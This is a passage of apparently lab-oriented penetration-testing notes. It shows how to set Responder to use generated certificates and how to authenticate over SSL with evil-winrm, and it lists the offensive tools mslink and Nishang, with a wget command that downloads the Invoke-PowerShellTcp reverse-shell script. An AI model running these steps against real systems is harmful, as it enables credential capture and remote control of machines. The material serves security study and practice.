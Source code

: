 then use the certs to being able to use example responder to catch a request. But Before you start responder you’ll want to copy the two certs generated earlier to "/usr/share/responder/certs" or wherever "/certs" lives on your machine so copy them over there and then change the responder config in the https part.

using:
/usr/share/responder/Responder.conf

from:
```
[HTTPS Server]

; Configure SSL Certificates to use
SSLCert = certs/responder.crt
SSLKey = certs/responder.key
```
to this for an example: 
```
[HTTPS Server]

; Configure SSL Certificates to use
SSLCert = certs/crt.pem
SSLKey = certs/key.pem
```  
  
you can also after this step, use those files to perform authentication via SSL using evil-winrm 

example: 
```
evil-winrm -S -c crt.pem -k key.pem -i 10.10.11.152
```
-c, --pub-key PUBLIC_KEY_PATH    Local path to public key certificate
-k, --priv-key PRIVATE_KEY_PATH  Local path to private key certificate
-S, --ssl                        Enable ssl

### mslink
This application allow you to create Windows Shortcut files (extension .LNK) without needing a Windows OS.
```
http://www.mamachine.org/mslink/index.en.html
```
### nishang
```
https://github.com/samratashok/nishang
```
Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming. Nishang is useful during all phases of penetration testing.

 
### Invoke PowerShellTcp ps1
Invoke-PowerShellTcp.ps1 script coming from nishang:
```
https://github.com/samratashok/nishang
```
Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming. Nishang is useful during all phases of penetration testing.
```
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```

